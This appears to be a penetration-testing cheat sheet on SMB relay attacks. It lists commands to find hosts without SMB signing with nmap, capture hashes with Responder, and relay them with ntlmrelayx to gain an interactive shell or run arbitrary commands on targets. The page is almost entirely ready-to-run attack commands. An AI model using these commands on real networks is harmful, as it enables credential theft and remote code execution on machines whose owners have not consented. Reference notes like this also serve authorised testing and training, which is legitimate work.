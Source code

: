 Relay hashes gathered by responder to another machine to gain access to it. Relies on SMB signing being disabled or not-enforced on the target machine. Relayed creds must be local admin on machine to be useful.

### Identify Hosts without SMB signing

```nmap-smbv2-sec-mode
nmap --script=smb2-security-mode.nse -p445 <TARGET>
```

### Enable SMB Relay via responder

```responder-config-change
sudo vi /etc/responder/Responder.conf
```

Turn off SMB and HTTP servers in the conf file

```responder
sudo responder -I <interface> -dwP
```

```ntlmrelayx
sudo ntlmrelayx.py -tf <targets.txt> -smb2support
```

```ntlmrelayx-interactive-shell
sudo ntlmrelayx.py -tf <targets.txt> -smb2support -i
```

```ntlmrelayx-run-command
sudo ntlmrelayx.py -tf <targets.txt> -smb2support -c "<COMMAND>"
```




